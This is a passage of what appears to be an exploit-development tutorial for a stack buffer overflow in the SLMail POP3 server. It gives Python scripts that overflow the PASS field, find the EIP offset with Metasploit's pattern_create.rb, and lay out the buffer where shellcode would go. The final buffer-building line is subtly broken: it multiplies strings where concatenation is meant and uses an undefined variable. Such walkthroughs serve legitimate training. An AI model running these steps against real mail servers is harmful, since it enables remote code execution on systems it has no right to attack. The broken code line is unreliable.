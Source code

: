    ```python
           s.close()
           buffer += 200
       except:
           print "Could not connect to POP3 for some reason..."
   ```

   Upon causing a crash, note down the length of the buffer required to cause the crash.

4. Determine what part of the message ends up being written to the EIP register. This can be done using the `pattern_create.rb` file in the metasploit tools directory. This will create a unique string that will allow you to see how many characters are required to make it into the program counter.

   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb <buffer length>
   ```

   Now copy and paste this into your python script.

   ```python
   # SLMail Tutorial
   import socket

   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

   buffer = "<paste-here>"

   try:
       print "Sending unique buffer of %s bytes" % len(buffer)
       s.connect(('<address>', 110))
       data = s.recv(1024)
       s.send('USER user ' + '\r\n')
       data = s.recv(1024)
       s.send('PASS ' + buffer + '\r\n')
       data = s.recv(1024)
       s.close()
   except:
       print "Could not connect to POP3 for some reason..."
   ```

   Finally, inspect immunity debugger and note the characters in the EIP register. Cross reference with the pasted buffer to determine the offset.

   Note: `pattern_create.rb` has a sister tool called `pattern_offset.rb` that can help you to determine the offset.

5) Now that you know start of the part of the message that overflows into the program counter, verify that it's correct by sending a buffer made of "A"s, "B"s and "C"s. The "A"s represent the data that consumes the stack, the "B"s represent the return address and the "C"s represent the arbitrary shellcode to be executed.

   You can easily create this buffer using python:

   ```python
   crash_length = <length>
   eip = "BBBB"
   buffer = "A" * offset + eip * "C" * (crash_length - offset - len(eip))
   ```
